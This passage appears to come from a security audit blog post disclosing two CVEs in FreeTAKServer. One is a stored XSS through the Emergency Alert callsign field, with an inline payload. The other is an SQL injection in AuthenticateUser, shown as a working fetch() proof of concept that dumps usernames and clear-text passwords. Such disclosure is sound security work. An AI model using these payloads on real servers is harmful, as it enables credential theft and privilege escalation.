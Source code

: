 
### \[CVE-2022-25507\] XSS through Emergency Alert

In the FreeTAKServer-UI there is a function to create and view Emergency Alerts that are originating from either the End User Device or from the UI itself. Both Avenues are susceptible to a Stored Cross Site scripting vulnerability in the Callsign parameter.

##### Web Interface

In the case of a XSS in the WebUI it is as simple as having a callsign with the payload of `<img src onerror=alert(/payload/)>` which will trigger the Emergency function and display the emergency in the WebUI.

{{< image classes="fancybox center" src="/img/posts/2022/02/securityaudit-of-an-open-source-project-takserver/xss_webui_payload.jpg" title="XSS WebUI Payload" >}}  

{{< image classes="fancybox center" src="/img/posts/2022/02/securityaudit-of-an-open-source-project-takserver/xss_webui_alert.jpg" title="XSS WebUI Alert" >}}  

##### End User Device
What's more interesting of a scenario is that it is possible to push Emergencies from any of the EUDs, these can range from a 911, TIC (Troops in Contact) or similar. This Emergency will broadcast to each EUD (Which are not affected) but also shown in the WebUI, again triggering the XSS payload.

This can be chained together with the API keys in the reponse in order to obtain a server RestAPI key for further exploitation, which can take a normal user in the field to a Web Server admin

{{< image classes="fancybox center" src="/img/posts/2022/02/securityaudit-of-an-open-source-project-takserver/xss_enduserdevice_alert.jpg" title="XSS End User Device Payload" >}}  

{{< image classes="fancybox center" src="/img/posts/2022/02/securityaudit-of-an-open-source-project-takserver/xss_enduserdevice_webui_payload.jpg" title="XSS End User Device WebUI Payload" >}}  

{{< image classes="fancybox center" src="/img/posts/2022/02/securityaudit-of-an-open-source-project-takserver/xss_enduserdevice_alert.jpg" title="XSS End User Device WebUI Alert" >}}  

### \[CVE-2022-25506\] SQL Injection on AuthenticateUser

The API endpoint AuthenticateUser contains a SQL Injection into the SQLite3 Database that is handling the authentication process of the SystemUsers. In order to exploit this vulnerability the attacker need to possess a valid API key, which can either be leaked through the XSS to a End User Device, or given as a part of the UAV Operator ability which broadcasts the GPS and Video feed of a UAV-Drone.  
From the SQL Injection it is possible to list all the Username, UsedID and Clear-Text passwords in the database.


##### Proof of Concept

Posting the follwing snippet into a web browsers console will trigger the SQL Injection and return the name and password for each user in the SystemUsers table.
```
fetch("http://atak.FreeTAKServer.com:19023/AuthenticateUser?username=abc\" UNION SELECT (SELECT group_concat(name||':'||password) FROM SystemUser),'b','c','PASSWORD','d','e'--&password=PASSWORD", {
    "headers": {
      "accept": "*/*",
      "accept-language": "en-US,en;q=0.9",
      "authorization": "Bearer ValidAPIKey",
      "content-type": "application/json"
    },
    "mode": "cors"
  });
```
